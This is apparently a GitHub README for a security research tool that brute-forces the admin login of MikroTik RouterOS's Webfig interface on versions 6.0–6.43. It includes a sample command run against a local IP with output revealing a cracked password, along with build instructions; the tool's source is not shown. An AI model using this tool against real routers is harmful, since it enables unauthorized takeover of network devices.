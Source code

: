 # Webfig Bruteforce

The Webfig interface, port 80, has... let's say absolutely no bruteforce protection if you can reach it. There is a feature that limits which IPs can connect to it, but if you are in that IP range or it isn't set then you can brute force it to your hearts content.

This project takes a list of passwords, and IP address, and a port. It will keep sending login requests for the 'admin' user until its out of passwords to try or it found a valid request.

Sample:

```
albinolobster@ubuntu:~/routeros_internal/brute_force/www_brute/build$ time ./www_bruteforce -f ~/top10000.txt -i 192.168.1.139 -p 80 2> /dev/null
[+] Loading password file...
[+] Found 10000 passwords.
10000 / 10000
We found the password! Use admin:lolwat

real    0m46.522s
user    0m2.091s
sys     0m4.206s
```

## What versions does this work on?

Any RouterOS version between 6.0 and 6.43. Webfig has changed over time and I don't have all the implementations in here.

## Are there side affects?

Oh yeah. All log in attempts are written to the log file... it gets long pretty quick.

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.